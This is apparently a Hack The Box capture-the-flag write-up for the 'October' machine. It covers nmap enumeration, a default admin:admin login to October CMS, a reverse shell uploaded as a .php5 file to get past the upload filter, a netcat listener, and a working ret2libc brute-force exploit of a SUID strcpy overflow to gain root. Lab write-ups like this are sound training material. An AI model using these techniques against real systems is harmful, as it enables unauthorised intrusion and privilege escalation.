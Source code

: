 ```yaml
---
clayout: ctf
title: October
date: 2025-08-28
image: /ctf/hack-the-box/machines/october/info-card.png
type: Hack The Box

ctf:
    - name: October
      link: https://app.hackthebox.com/machines/15
      thumbnail: /ctf/hack-the-box/machines/october/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/15
          thumbnail: /ctf/hack-the-box/machines/october/pwned.png
---
```


## Machine Overview

Linux host exposing SSH (22/tcp) and HTTP (80/tcp). The web app is **October CMS**, which leads to an authenticated file upload and a straightforward initial shell. Privilege escalation is via a SUID binary with a classic stack buffer overflow (ret2libc).

## Enumeration

### Nmap

We start by running a nmap scan to get the open ports and services.

```bash
nmap -A -oN nmap.txt 10.10.10.16
```

**Scan results:**

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  tcpwrapped
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
```

The HTTP title and headers indicate **October CMS** behind Apache on Ubuntu.

## Web Enumeration → Initial Foothold

Browse to `http://10.10.10.16/` → October CMS landing page.

![October CMS landing page](/ctf/hack-the-box/machines/october/home.png)

Per common OctoberCMS setups, the backend is at `/backend`. Visiting:

```url
http://10.10.10.16/backend
```

shows the login page.

![October CMS login page](/ctf/hack-the-box/machines/october/login.png)

Tried common weak defaults; `admin:admin` worked on this instance.

![October CMS backend login](/ctf/hack-the-box/machines/october/backend-panel.png)

Once authenticated, open **Media** in the backend. Direct `.php` uploads are blocked, but `.php5` is accepted.

Upload a reverse shell as [`php-reverse-shell.php5`](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

![October CMS media upload](/ctf/hack-the-box/machines/october/upload.png)

Start a listener:

```bash
nc -lvnp 4444
```

Trigger the payload by clicking the uploaded file (or browsing to the media URL shown in the panel). Shell received:

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> [!NOTE] User flag
> The user flag is located at `/home/harry/user.txt`

> [!TIP] TTY upgrade (optional)
>
> ```bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> export TERM=xterm
> ```

## Privilege Escalation (www-data → root)

### SUID discovery

```bash
find / -type f -perm -u=s 2>/dev/null
# ...
/usr/local/bin/ovrflw
```

Running it without args:

```bash
/usr/local/bin/ovrflw
Syntax: /usr/local/bin/ovrflw <input string>
```

### Vulnerability

Disassembly / decompilation shows:

```c
int main(int argc, char **argv) {
    if (argc > 1) {
        char buf[0x64];           // 100 bytes
        strcpy(buf, argv[1]);     // unbounded copy → overflow
        return 0;
    }
    printf("Syntax: %s <input string>\n", argv[0]);
    exit(0);
}
```

Classic stack overflow via `strcpy` into a local buffer in a **SUID root** binary → ret2libc.

### Protections & offset

Check protections:

```bash
checksec --file=/usr/local/bin/ovrflw
```

Determine exact EIP offset with a cyclic pattern. In this instance, **112** bytes of padding reached the saved return address.

### ret2libc payload

Layout: `[padding][system][return_after_system][pointer_to_"/bin/sh"]`.

ASLR is enabled, so the base of libc changes between runs. This box was solved by **brute-forcing** until the randomized libc base matched a known value for which the offsets were prepared.

**One-liner brute-force loop:**

```bash
while :; do
  /usr/local/bin/ovrflw "$(
    python -c 'import sys,struct
base=0xb75d8000               # example base that hit on this box
sys_off   = 0x00040310        # system
binsh_off = 0x00162bac        # "/bin/sh"
payload  = b"\x90"*112
payload += struct.pack("<I", base+sys_off)
payload += struct.pack("<I", 0xdeadbeef)      # return after system (unused)
payload += struct.pack("<I", base+binsh_off)
sys.stdout.buffer.write(payload)'
  )"
done
```

When the randomized libc base equals `0xb75d8000` on a given run, execution lands in `system("/bin/sh")` with effective UID `root`.

```bash
$ id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```

> [!NOTE] Root flag
> The root flag is located at `/root/root.txt`
